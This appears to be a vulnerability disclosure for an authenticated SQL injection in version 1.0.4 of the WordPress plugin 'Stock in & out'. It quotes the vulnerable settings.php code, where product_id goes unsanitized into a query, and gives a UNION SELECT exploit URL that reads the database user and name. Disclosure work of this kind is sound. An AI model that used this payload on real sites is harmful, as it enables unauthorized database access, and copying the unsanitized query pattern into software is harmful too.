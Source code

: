 # Vulnerability Info
## Vulnerability Type
Wordpress plugin Stock in & out Authenticated SQL Injection
## Vulnerability Version
1.0.4
## Recurring environment
Windows 10* PHP 5.4.5* Apache 2.4.23
## Author
pang0lin@webray.com.cn inc.
# Vulnerability Description AND recurrence:
The security issue is occured at file \wp-content\plugins\stock-in\includes\settings.php
```
 <?php
global $wpdb;
$author_id=get_current_user_id();
$stock_in_history=$wpdb->prefix.'stock_in_history';
/*if(isset($_GET['product_id'])){
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	WHERE product_id = $product_id ORDER BY id DESC");
}else{
$stock_in_log = $wpdb->get_results("SELECT * FROM $stock_in_history	ORDER BY id DESC");
}*/

if(isset($_GET['product_id'])){
$stock_in_log = "SELECT * FROM $stock_in_history WHERE product_id = $product_id";
}else{
$stock_in_log = "SELECT * FROM $stock_in_history";
}

$query = $stock_in_log;
 $total_query = "SELECT COUNT(1) FROM (${query}) AS combined_table";
    $total = $wpdb->get_var( $total_query );
    $items_per_page = 20;
	//$sort = isset( $_GET['sort'] ) ? 'DESC'	: 'ASC';
    $page = isset( $_GET['cpage'] ) ? abs((int)$_GET['cpage']) : 1;
    $offset = ( $page * $items_per_page ) - $items_per_page;
    $stock_in_log_by_page = $wpdb->get_results( $query . " ORDER BY ID ${sort} LIMIT ${offset}, ${items_per_page}" );

```
The parameter $_GET['product_id'] is derectly used by select statement. Then, we can exploit it .

http://www.target.com/wp-admin/admin.php?page=stock_in&product_id=0+union+select+1%2C2%2C3%2Cuser%28%29%2Cdatabase%28%29%2C6%2C7%2C8%2C9%2C10&tab=history

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_plugin_stockinandout_sqli.png "wordpress_plugin_stockinandout_sqli")
